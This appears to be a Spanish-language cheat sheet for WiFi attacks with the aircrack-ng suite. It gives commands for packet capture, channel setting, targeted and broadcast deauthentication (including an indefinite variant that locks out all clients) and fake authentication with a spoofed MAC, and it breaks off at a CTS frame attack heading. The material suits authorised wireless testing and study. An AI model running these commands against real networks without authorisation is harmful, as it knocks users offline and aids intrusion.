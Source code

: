 ```bash
# Se realiza con el parámetro -w
┌─[root@kali]─[/Documents/WiFi/]
└──╼ airodump-ng -c 5 -w nombre --bssid D8:5D:4C:FF:CC:5A wlan0mon 
```
## Modificar canal de tarjeta

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ iwconfig wlan0mon channel 11
```

## Ataque de deautenticación dirigido

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ aireplay-ng -0 10 -e Testing -c 18:87:40:49:B8:07 wlan0mon
```

| Parámetro | Utilidad |
| :--------: | :-------: |
| -0 | Cantidad de paquetes de desautenticación. |
| -e | ESSID. |
| -c | Cliente (MAC del dispositivo conectado a la red). |


## Ataque de deautenticación global (Broadcast MAC Address)

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ aireplay-ng -0 10 -e Testing -c FF:FF:FF:FF:FF:FF wlan0mon

# si en vez de 10 colocamos un 0, ningún dispositivo se podrá volver a autenticar hasta que sea cancelado el ataque.
```

## Ataque de falsa autenticación

```bash
┌─[root@kali]─[/Documents/WiFi/]
└──╼ aireplay-ng -1 0 -e Testing -a D8:5D:4C:FF:CC:5A -h 00:0c:f1:da:db:82 wlan0mon
```

| Parámetro | Utilidad |
| :--------: | :-------: |
| -e | ESSID. |
| -a | BSSID. |
| -h | Dirección MAC falsa. (se pueden extraer de macchanger -l) |

## CTS Frame Attack
